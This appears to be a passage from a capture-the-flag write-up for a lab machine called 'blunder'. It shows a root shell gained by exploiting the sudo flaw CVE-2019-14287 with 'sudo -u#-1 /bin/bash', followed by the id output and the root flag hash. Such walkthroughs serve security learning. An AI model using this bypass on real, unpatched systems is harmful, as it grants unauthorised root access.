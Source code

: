 
However, because of CVE-2019-14287 in sudo, we can bypass the username check by using `#-1` and we get a root shell.
```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# id
id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
5d649f5bcb1be5f93702a7a71cd4d77e
```
